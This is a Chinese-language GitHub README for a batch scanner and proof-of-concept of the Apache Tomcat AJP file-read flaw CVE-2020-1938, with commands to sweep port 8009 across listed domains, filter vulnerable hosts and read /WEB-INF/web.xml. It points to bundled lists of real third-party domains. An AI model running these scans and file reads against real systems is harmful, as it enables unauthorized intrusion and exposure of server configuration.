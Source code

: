 # CNVD-2020-10487 (CVE-2020-1938) 漏洞扫描工具

**注：仅供学习，严禁非法使用**

基于 Python 2.x，可以批量扫描 Apache Tomcat AJP 协议文件读取漏洞（Python 3.x 简单修改可用）

漏洞影响版本：

- Apache Tomcat 7 < 7.0.100

- Apache Tomcat 8 < 8.5.51

- Apache Tomcat 9 < 9.0.31

此漏洞为 LFI (Local File Inclusion)，但有可能构造为 RCE (Remote Code Execution)

PoC 来源并修改于 [CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner](https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner) 与 [CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

## 操作

### 将需要扫描的 IP 或域名放于 `ip.txt`

`ip.txt` 中不需要加协议，比如：

```
127.0.0.1
www.baidu.com
www.google.com
```

src 域名收集文件夹中为本人收集的教育src和补天src的一些域名，可直接测试

### 批量扫描 `8009` AJP 端口开放情况

```bash
python threading-find-port-8009.py
```

这将会生成 `8009.txt`，作用为扫描 `ip.txt` 中 IP 或域名，并找出开放的 `8009` 端口

### 筛选可利用漏洞的 Tomcat Server

```bash
python threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py
```

从 `8009.txt` 中筛选出符合漏洞的 IP 或域名，放置于 `vul.txt` 中，最后 `vul.txt` 中存在的域名即为含有漏洞的 IP 或域名

测试可知，补天公益src有上百站点，教育src大概三百站点包含此漏洞

![漏洞扫描](1.png)

### 漏洞利用测试

```bash
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1
```

两个脚本的最后一行均为线程数，默认是 `20`，可自行修改，分别位于：

- `threading-find-port-8009.py` 的 67 行

- `threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py` 的 341 行

```python
thread_num = 20
```

### 其他

漏洞测试利用更推荐使用 [AJPy](https://github.com/hypn0s/AJPy) 工具包，如需利用 `CVE-2020-1938`：

```bash
python tomcat.py read_file --webapp=ROOT /WEB-INF/web.xml 127.0.0.1
```
